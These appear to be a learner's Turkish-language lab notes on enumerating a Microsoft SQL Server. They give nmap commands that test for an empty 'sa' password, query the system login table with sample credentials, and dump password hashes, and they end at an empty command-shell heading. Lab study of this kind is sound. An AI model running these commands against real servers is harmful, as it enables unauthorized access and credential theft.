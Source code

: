 ![[Pasted image 20240128201808.png]]

## nmap 10.0.2.5 -p1433 --script ms-sql-empty-password
![[Pasted image 20240128201911.png]]
## username :sa olarak bir kullanıcı var ve empty pass ile access sağlayabiliyor.

---

## SQL Nmap Script  Syslogins
![[Pasted image 20240128202544.png]]
##### nmap 10.0.2.5 -p1433 --script ms-sql-query --script-args mssql.username=admin,mssql.password=anamaria,ms-sqlquery.query="SELECT * FROM master..syslogins" -oN output.txt

![[Pasted image 20240128202819.png]]
### Bu nmap çıktısını -oN olarak normal txt olarak kaydetmiştik. Txt dosyasını açtık ve options bolomunden Wrap Lines Seçeneğini off konuma aldığımızda daha anlamlı ve görsel olarak daha anlaşılır bir çıktı ile bütün database output'u verir.
![[Pasted image 20240128202937.png]]

#### Buradaki database'de bir sürü column ve row var. Dikkatle bakmamız gereken login.ler "nt service login'ler, machine services login'ler bize daha faydalı olacaktır. 
![[Pasted image 20240128203345.png]]

---

## SQL NMAP HASH DUMP SCript

![[Pasted image 20240128203522.png]]
##### nmap -p1433 10.0.2.5 --script ms-sql-dump-hashes --script-args mssql.username=admin,mssql.password=anamaria

![[Pasted image 20240128203637.png]]
##### MS_PolicyEventProcessingLogin bize faydalı olacak ancak şuan sadece Enum yapıyoruz.


---
## SQL XP COmmand Shell
![[Pasted image 20240128203900.png]]
